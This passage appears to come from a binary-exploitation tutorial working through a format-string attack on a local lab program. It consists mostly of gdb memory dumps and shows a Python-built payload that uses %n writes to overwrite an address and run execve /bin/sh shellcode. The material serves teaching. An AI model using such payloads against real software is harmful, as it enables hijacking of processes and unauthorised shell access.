 ```bash
0xffffcfb6:	0x00000000	0x00000000	0xcfe00000	0x0000ffff
0xffffcfc6:	0x00000000	0xbee50000	0x8000f7dd	0x8000f7fa
0xffffcfd6:	0x0000f7fa	0xcee60000	0x0000ffff	0xd0740000
0xffffcfe6:	0xd080ffff	0xd004ffff	0x8000ffff	0x0000f7fa
0xffffcff6:	0xd0580000	0x0000ffff	0xd0000000	0x0000f7ff
0xffffd006:	0x80000000	0x8000f7fa	0x0000f7fa	0x30dc0000
0xffffd016:	0xb6cc2b06	0x00006fe4	0x00000000	0x00000000
0xffffd026:	0x00020000	0x90a00000	0x00000804	0x7cd40000
0xffffd036:	0x2410f7fe	0xc000f7fe	0x00020804	0x90a00000
0xffffd046:	0x00000804	0x90d60000	0x91b60804	0x00020804
0xffffd056:	0xd0740000	0x9220ffff	0x92900804	0x24100804
0xffffd066:	0xd06cf7fe	0x001cffff	0x00020000	0xd2330000
0xffffd076:	0xd278ffff	0x0000ffff
```

The shellcode now is at `0xffffcf16`. How can I determine where the shellcode starts? By the start of the shellcode! `\xeb\x0b\x5b\x31` is `0x315b0beb` which showed above.

```bash
gef➤  r $(python -c 'print "\xdc\xcf\xff\xff" + "\xde\xcf\xff\xff" + "%53006u" + "%6$n" + "%12569u" + "%7$n" + "\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"')
Starting program: /home/shogun/repos/basics-of-pwn/content/format-string/format-string $(python -c 'print "\xdc\xcf\xff\xff" + "\xde\xcf\xff\xff" + "%53006u" + "%6$n" + "%12569u" + "%7$n" + "\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"')
��������
gef➤  x/106wx $esp - 0x100
0xffffcedc:	0x0804920b	0xffffcef8	0xffffd278	0x000000c8
0xffffceec:	0x080491d4	0x00000000	0x00000000	0xffffcfdc
0xffffcefc:	0xffffcfde	0x30333525	0x25753630	0x256e2436
0xffffcf0c:	0x36353231	0x37257539	0x0beb6e24	0x31c0315b
0xffffcf1c:	0xb0d231c9	0xe880cd0b	0xfffffff0	0x6e69622f
0xffffcf2c:	0x0068732f	0x00000000	0x00000000	0x00000000
0xffffcf3c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf4c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf5c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf6c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf7c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf8c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcf9c:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcfac:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffcfbc:	0x00000000	0xffffcfe0	0x00000000	0x00000000
0xffffcfcc:	0xf7ddbee5	0xf7fa8000	0xf7fa8000	0x00000000
0xffffcfdc:	0x002fcf16	0x00000001	0xffffd074	0xffffd080
0xffffcfec:	0xffffd004	0xf7fa8000	0x00000000	0xffffd058
0xffffcffc:	0x00000000	0xf7ffd000	0x00000000	0xf7fa8000
0xffffd00c:	0xf7fa8000	0x00000000	0x670fce9e	0x23ed488e
0xffffd01c:	0x00000000	0x00000000	0x00000000	0x00000002
0xffffd02c:	0x080490a0	0x00000000	0xf7fe7cd4	0xf7fe2410
0xffffd03c:	0x0804c000	0x00000002	0x080490a0	0x00000000
0xffffd04c:	0x080490d6	0x080491b6	0x00000002	0xffffd074
0xffffd05c:	0x08049220	0x08049290	0xf7fe2410	0xffffd06c
0xffffd06c:	0x0000001c	0x00000002	0xffffd233	0xffffd278
0xffffd07c:	0x00000000	0xffffd2b0
gef➤  r $(python -c 'print "\xdc\xcf\xff\xff" + "\xde\xcf\xff\xff" + "%53006u" + "%6$n" + "%12521u" + "%7$n" + "\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"')
Starting program: /home/shogun/repos/basics-of-pwn/content/format-string/format-string $(python -c 'print "\xdc\xcf\xff\xff" + "\xde\xcf\xff\xff" + "%53006u" + "%6$n" + "%12521u" + "%7$n" + "\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"')
��������
gef➤  x/106wx $esp - 0x100
0xffffcedc:	0x0804920b	0xffffcef8	0xffffd278	0x000000c8
0xffffceec:	0x080491d4	0x00000000	0x00000000	0xffffcfdc
```